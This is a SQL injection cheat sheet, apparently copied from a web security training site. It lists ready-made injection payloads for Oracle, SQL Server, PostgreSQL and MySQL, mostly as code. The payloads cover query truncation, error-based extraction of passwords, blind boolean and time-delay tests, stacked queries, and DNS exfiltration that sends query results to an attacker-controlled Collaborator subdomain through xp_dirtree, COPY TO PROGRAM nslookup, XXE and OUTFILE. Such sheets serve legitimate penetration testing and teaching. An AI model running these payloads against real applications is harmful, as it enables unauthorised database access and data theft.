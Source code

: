 SQL injection cheat sheet


This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.
String concatenation


You can concatenate together multiple strings to make a single string.

      Oracle 	'foo'||'bar'
      Microsoft 	'foo'+'bar'
      PostgreSQL 	'foo'||'bar'
      MySQL 	'foo' 'bar' [Note the space between the two strings]
      CONCAT('foo','bar')


Substring


You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

    Oracle 	SUBSTR('foobar', 4, 2)
    Microsoft 	SUBSTRING('foobar', 4, 2)
    PostgreSQL 	SUBSTRING('foobar', 4, 2)
    MySQL 	SUBSTRING('foobar', 4, 2)
    

Comments


You can use comments to truncate a query and remove the portion of the original query that follows your input.


    Oracle 	--comment
    Microsoft 	--comment
    /*comment*/
    PostgreSQL 	--comment
    /*comment*/
    MySQL 	#comment
    -- comment [Note the space after the double dash]
    /*comment*/



Database version


You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.


    Oracle 	SELECT banner FROM v$version
    SELECT version FROM v$instance
    Microsoft 	SELECT @@version
    PostgreSQL 	SELECT version()
    MySQL 	SELECT @@version


Database contents


You can list the tables that exist in the database, and the columns that those tables contain.


    Oracle 	SELECT * FROM all_tables
    SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
    Microsoft 	SELECT * FROM information_schema.tables
    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    PostgreSQL 	SELECT * FROM information_schema.tables
    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    MySQL 	SELECT * FROM information_schema.tables
    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'


Conditional errors

    
    You can test a single boolean condition and trigger a database error if the condition is true.
    Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
    Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
    PostgreSQL 	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
    MySQL 	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')


Extracting data via visible error messages


You can potentially elicit error messages that leak sensitive data returned by your malicious query.

    
    Microsoft 	SELECT 'foo' WHERE 1 = (SELECT 'secret')
    
    > Conversion failed when converting the varchar value 'secret' to data type int.
    PostgreSQL 	SELECT CAST((SELECT password FROM users LIMIT 1) AS int)
    
    > invalid input syntax for integer: "secret"
    MySQL 	SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))
    
    > XPATH syntax error: '\secret'
    Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

    
    Oracle 	Does not support batched queries.
    Microsoft 	QUERY-1-HERE; QUERY-2-HERE
    QUERY-1-HERE QUERY-2-HERE
    PostgreSQL 	QUERY-1-HERE; QUERY-2-HERE
    MySQL 	QUERY-1-HERE; QUERY-2-HERE
Note


With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.


Time delays
    
    You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
    Oracle 	dbms_pipe.receive_message(('a'),10)
    Microsoft 	WAITFOR DELAY '0:0:10'
    PostgreSQL 	SELECT pg_sleep(10)
    MySQL 	SELECT SLEEP(10)

Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

    
    Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
    Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
    PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
    MySQL 	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')


DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

    Oracle 	
    
    (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
    SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
    
    The following technique works on fully patched Oracle installations, but requires elevated privileges:
    SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
    Microsoft 	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
    PostgreSQL 	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
    MySQL 	
    
    The following techniques work on Windows only:
    LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
    SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

    
DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.


    Oracle 	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
    Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
    PostgreSQL 	create OR replace function f() returns void as $$
    declare c text;
    declare p text;
    begin
    SELECT into p (SELECT YOUR-QUERY-HERE);
    c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
    execute c;
    END;
    $$ language plpgsql security definer;
    SELECT f();
    MySQL 	The following technique works on Windows only:
    SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
